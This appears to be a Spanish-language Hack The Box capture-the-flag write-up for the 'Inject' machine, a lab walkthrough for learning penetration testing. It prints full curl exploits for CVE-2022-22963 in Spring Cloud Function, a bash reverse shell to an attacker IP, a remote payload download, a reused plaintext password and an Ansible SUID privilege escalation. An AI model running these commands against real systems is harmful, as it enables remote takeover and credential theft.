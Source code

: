 ```yaml
---
layout: post
author: 4akatun
---
```


# Writeup
![Inject]({{'assets/img/Inject/inject.png' | relative_url}}) 

HACK-THE-BOX

-----------------------------------------------------------

Iniciamos el escaneo en la maquina victima.

```bash
# Nmap 7.93 scan initiated Tue Mar 21 20:39:10 2023 as: nmap -sCV -p22,8080 -oN targeted 10.10.11.204
Nmap scan report for 10.10.11.204
Host is up (0.049s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 21 20:39:20 2023 -- 1 IP address (1 host up) scanned in 10.36 seconds
```
Analizo la pagina web, dado que no hay mucho mas.

![web-Inject]({{'/assets/img/Inject/web_inject.png' | relative_url}})

Veo esto, curioseando lo unico interesante en el apartado **upload**
![upload]({{'/assets/img/Inject/upload_inject.png' | relative_url}})

Solo admite archivos de imagen

![upload-result]({{'/assets/img/Inject/img_upload.png' | relative_url}})

Provare con cualquier imagen 

![upload-succes]({{'/assets/img/Inject/succesful_img.png' | relative_url}})

Bien, se ha subido correctamente y paso por **BurpSuite** la *url* de la imagen. Se ve lo siguiente...
![img-url]({{'/assets/img/Inject/burp_inject.png' | relative_url}})

Lo que funciona en este caso es **LFI** -> *Local File Inclusion*.
Apuntamos al **/etc/hosts** para validar que funciona nuestro *LFI*
![LFI]({{'/assets/img/Inject/LFI_inject.png' | relative_url}})

Buscando algo de lo que aprovecharme, encuentro en la ruta **/var/www/WebApp** un 
archivo con nombre ***pom.xml***

![xml-file]({{'/assets/img/Inject/xml.png' | relative_url}})

Lo examino y encuentro algo y busco informacion para ver si me puedo aprovechar para poder subir 
archivos a la maquina victima. Dejo enlaces con la informacion ->
* Enlace [How to exploit CVE-2022-22963](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)
* Enlace [Exploit](https://github.com/darryk10/CVE-2022-22963)

Probamos los comandos para subir un archivo *test* y ver que funcione.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

![test-file]({{'/assets/img/Inject/test_file_inject.png' | relative_url}})

Y lo tenemos, archivo subido, ahroa subimos nuestro archivo malicioso con un comando de **revers shell**

```bash
bash -i >& /dev/tcp/tu-ip/443 0>&1
```
Lo volvemo a subir con el comando anterior.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.15/rever.sh -o /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

![revers-file]({{'/assets/img/Inject/rever_inject.png' | relative_url}})

Ya esta, lo queda mandar otra orden para ejectar el archivo y estando en escucha en nuestro equipo con **netcat** obtenemos una **shell**

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

```
bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.204] 40436
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```
Estamo dentro como el usuario *frank*, tendremos que pivotar de usuario a *phil* para poder ver la flag de bajos privilegios.

```bash
bash-5.0$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
bash-5.0$
```
Encuentro un archivo llamando **settings.xml** al que hechandole un vistazo vemos al usuario *phil* y una *contraseña* que probaremos para cambiar de usuario y ver si aun es valida.

```bash
bash-5.0$ su phil
Password:DocPhillovestoInject123
bash-5.0$ whoami
phil
bash-5.0$ cat /home/phil/user.txt 
e0c**************************fcb
bash-5.0$ 
```
Pareceser que es valida y podemos visualizar la flag, hora de continuar con la escalada.
Subimos el binario **linpeas** para analizar y buscar formas factibles de escalada de privilegios.

![linpeas]({{'/assets/img/Inject/linpeas.png' | relative_url}})

Veo este archivo en la ruta **/opt** el cual puede ser modificado, busco mas informacion para
ver de que se trata. Dejo lo enlaces ->

* Enlace [playbook-guide](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)
* Enlace [playbook-guide-privilege-scalation](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html)

Bien una vez analizada la informacion nos cramos nuestro archivo de nombre **pe.yml** al que le 
otorgare la capacidad de cambiar los permisos de **/bin/bash** para que sea **SUID**.

```yaml
 - hosts: localhost
   tasks:
     - name: 4aka pe
       shell: chmod +s /bin/bash
       become: true
```

Ya lo tenemos y esperdao unos segundos es ejecutado y obtenemos una *shell* con maximos privilegios,
vemos la flag final.

```bash
bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
7f6**************************bf6
bash-5.0#
```
Esto es todo.

# Espero que te pueda servir de ayuda. *GRACIAS por venir*
